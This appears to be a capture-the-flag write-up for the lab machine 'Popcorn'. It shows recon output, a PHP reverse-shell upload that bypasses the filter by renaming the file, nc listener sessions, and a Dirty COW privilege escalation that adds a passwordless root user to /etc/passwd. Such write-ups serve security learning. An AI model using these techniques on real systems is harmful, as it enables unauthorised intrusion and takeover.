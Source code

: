 # recon
- 22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))

## gobuster
- /cgi-bin/ (Status: 403) -> forbiden
- /index (Status: 200)
- /rename (Status: 301) `index.php?filename=old_file_path_an_name&newfilename=new_file_path_and_name`
- /test (Status: 200) -> phpinfo()
- /torrent (Status: 301) -> Torrent hoster

### Torrent hoster
```
/admin (Status: 301)
/.htpasswd (Status: 403)
/browse (Status: 200)
/comment (Status: 200)
/config (Status: 200)
/css (Status: 301)
/database (Status: 301)
/download (Status: 200)
/edit (Status: 200)
/health (Status: 301)
/hide (Status: 200)
/images (Status: 301)
/index (Status: 200)
/js (Status: 301)
/lib (Status: 301)
/login (Status: 200)
/logout (Status: 200)
/preview (Status: 200)
/readme (Status: 301)
/rss (Status: 200)
/secure (Status: 200)
/stylesheet (Status: 200)
/templates (Status: 301)
/thumbnail (Status: 200)
/torrents (Status: 301)
/upload (Status: 301)
/upload_file (Status: 200)
/users (Status: 301)
/validator (Status: 200)
```
Always using happy path to understand the application. I notice that I can upload a picture on the server after I publish a torrent on the application. I uploaded a picture of cute cat, the picture is then save in `/torrent/upload/`


so we can try to upload a malicious php as a picture and visti `/torrent/upload/` to execute the file.... It didnt works. so I ran `burp` to intercept the request and check it out.
```
Content-Disposition: form-data; name="file"; filename="cutiecat.php.png"
Content-Type: image/png
```
I changed `filename="cutiecat.php.png"` to `filename="cutiecat.php"` now check. the page `/torrent/upload/` and check if our reveseshell got upload and BOOM it is there. now view our .php to get a reverse shell!!
```
[10.10.14.43]-kali@kali:~/HTB/popcorn$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.10.6] 51870
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 17:36:03 up 13:22,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@popcorn:/$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root   root   4096 Mar 17  2017 .
drwxr-xr-x 21 root   root   4096 Oct 31 04:13 ..
drwxr-xr-x  3 george george 4096 Oct 26 19:35 george
www-data@popcorn:/home/george$ ls -l
ls -l
total 836
-rw-r--r-- 1 george george 848727 Mar 17  2017 torrenthoster.zip
-rw-r--r-- 1 george george     33 Oct 31 04:14 user.txt
```
nice we have permission to `r` on `george` directory, grab user flag and let recon to gain root.
# root
linpeas.sh dont gave much info, we found some password for database and we know that the kernel is old. I also find `motd`. I tried to exploit popcorn with motd but it didnt work. `dos2unix 14339.sh` didn't help either. when I excecute the exploit it asked me for www-data password which I do not have... So I go for kernel exploitation instead, dirty cow!
```console
www-data@popcorn:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
www-data@popcorn:/tmp$ chmod +x dirty
chmod +x dirty
www-data@popcorn:/tmp$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: <leave it empty>

Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: b7879000
^C
[10.10.14.43]-kali@kali:~/HTB/popcorn$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.10.6] 38532
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 19:06:29 up 40 min,  0 users,  load average: 1.79, 1.26, 0.86
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@popcorn:/$ su - firefart
su - firefart
Password: <leave it empty>

firefart@popcorn:~# ls
ls
root.txt
```